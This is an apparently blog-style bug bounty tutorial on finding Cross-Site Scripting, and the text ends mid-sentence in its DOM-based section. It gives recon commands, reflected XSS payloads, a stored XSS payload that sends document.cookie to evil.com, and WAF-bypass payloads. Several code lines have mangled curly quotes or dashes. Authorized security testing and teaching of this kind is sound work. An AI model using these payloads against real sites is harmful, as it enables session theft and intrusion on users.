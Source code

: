 ### Introduction


In the bug bounty world, Cross-Site Scripting (XSS) is one of the most common vulnerabilities hunters encounter. Yet, finding valid XSS vulnerabilities on modern applications requires patience, creativity, and skill. This guide provides a step-by-step approach to identify XSS vulnerabilities in real-world targets, from scoping to exploiting.

Whether you're an experienced bug bounty hunter or just starting out, this article will show you how to systematically search for XSS vulnerabilities and increase your chances of getting that bounty payout.

### 1. Start with Recon: Mapping Your Target

Before diving into XSS hunting, gather all possible attack surfaces on the target. This helps you identify input points, endpoints, and URLs where XSS vulnerabilities may lurk.

#### Tools for Recon:

-   **Subdomain Enumeration**
    -   Use tools like Subfinder, Assetfinder, or Amass to find all reachable subdomains.

Bash

```
subfinder -d target.com -o subdomains.txt

```

-   **URL Gathering**
    -   Gather all URLs using tools like gau (Get All URLs) and Waybackurls:

Bash

```
gau target.com | tee urls.txt
waybackurls target.com | tee -a urls.txt

```

These tools collect URLs from caches, public archives, and the application's history. Look out for query parameters — they’re usually great candidates for XSS testing.

### 2. Identify Parameters and Inputs to Test

Once you've collected URLs, filter them to find those containing parameters or input fields.

-   Use GF Patterns to extract URLs with parameters related to XSS:

Bash

```
gf xss urls.txt > xss_urls.txt

```

-   **Tools for Parameter Discovery:**
    -   ParamSpider: Crawl target websites to identify hidden parameters.

Bash

```
paramspider -d target.com -o params.txt

```


```
* Burp Suite: Use Intruder and Repeater to explore different inputs and parameters interactively.

```

These steps help you focus on vulnerable input points instead of wasting time on irrelevant parts of the target.

### 3. Testing for Reflected XSS

With the URLs and parameters in hand, the next step is to test for reflected XSS — where the payload is reflected immediately in the response.

#### Basic Payloads for Reflected XSS:

-   Test using a simple alert payload:

HTML

```
https://target.com/search?q=<script>alert(1)</script>

```

-   If the above payload doesn't work, try encoding it:

HTML

```
https://target.com/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E

```

-   Use Burp Suite to observe the server's response and see how the input is handled. Check if the input gets reflected directly in the HTML body, attributes, or in JavaScript contexts.

### 4. Hunting for Stored XSS

In Stored XSS, the malicious script is saved on the server and triggered when users access the stored content (e.g., in comments or profiles).

#### Where to Look for Stored XSS:

-   Comment sections
-   User profiles or status updates
-   Feedback forms
-   Message boards or chat applications

#### Example Payload:

If the application allows rich text input, try injecting this:

HTML

```
<script>document.location=’https://evil.com?cookie=' + document.cookie</script>

```


This payload attempts to steal the session cookie by sending it to a malicious site. If the XSS is successful, the attacker can hijack the session or impersonate the victim.

### 5. Bypassing Filters and WAFs

Modern applications often have input sanitization and Web Application Firewalls (WAFs) to block common XSS payloads. However, creative payloads and encoding techniques can help bypass these protections.

#### Tips to Bypass WAFs:

-   Unicode Encoding:

HTML

```
<script>alert\u0061</script>

```


-   HTML Entities:

HTML

```
<img src=x onerror=”alert(1)”>

```


-   Event Handlers in Tags:

HTML

```
<svg onload=alert(1)></svg>

```


-   Use Dalfox or KXSS to automate WAF bypass testing:

Bash

```
dalfox file xss_urls.txt — waf-evasion

```


### 6. DOM-Based XSS: Client-Side Vulnerabilities

DOM-based XSS occurs when JavaScript code modifies the DOM based on user input, leading to the execution of malicious code directly in the browser.

#### How to Test for DOM XSS:

-   Look for JavaScript snippets like this in the page source:

JavaScript

```
let input = location.search.split(‘=’)[1];

```


